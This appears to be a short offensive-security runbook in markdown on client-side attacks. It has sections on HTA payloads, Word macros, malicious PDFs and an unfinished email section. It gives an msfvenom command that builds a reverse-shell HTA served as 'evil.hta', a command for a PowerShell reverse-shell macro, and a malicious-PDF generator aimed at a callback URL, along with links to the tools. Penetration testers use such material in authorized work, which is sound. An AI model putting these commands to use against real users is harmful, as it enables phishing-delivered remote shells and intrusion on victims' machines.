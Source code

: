 # Client-Side Attacks
<!--- Status 90% --->
<!--- Email attack --->

## Introduction

This runbook is to help with Client-Side Attacks.  Client-Side Attacks are those attacks that are sent to clients, whe the client has to intiate the connection.  An example of this would be a phishing email.  The listener and backend have to be set up prior, and then client has to click the link in the email.

## Table of Content

- [Client-Side Attacks](#client-side-attacks)
  - [Introduction](#introduction)
  - [Table of Content](#table-of-content)
  - [HTA Attack in Action](#hta-attack-in-action)
  - [Microsoft Word Macro Attack](#microsoft-word-macro-attack)
  - [Malicious PDF](#malicious-pdf)
  - [Email](#email)

## HTA Attack in Action

- Get web browser name, operating system, device type  
https://explore.whatismybrowser.com/useragents/parse/#parse-useragent

- Creating a malicious .hta with msfvenom

```sh
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o /var/www/html/evil.hta
```

## Microsoft Word Macro Attack

- Generate a malicious macro for reverse shell in powershell using base64 for .doc

```python
python evil_macro.py -l <ip> -p <port> -o macro.txt
```

- [Evil-Macro](https://github.com/rodolfomarianocy/Evil-Macro/)

## Malicious PDF

- Malicious PDF Generator

```python
python3 malicious-pdf.py burp-collaborator-url
```

- [malicious-pdf](https://github.com/jonaslejon/malicious-pdf)

- [evilpdf](https://github.com/superzerosec/evilpdf)

## Email

 To come

 <!--- Last Updated July 8, 2024 --->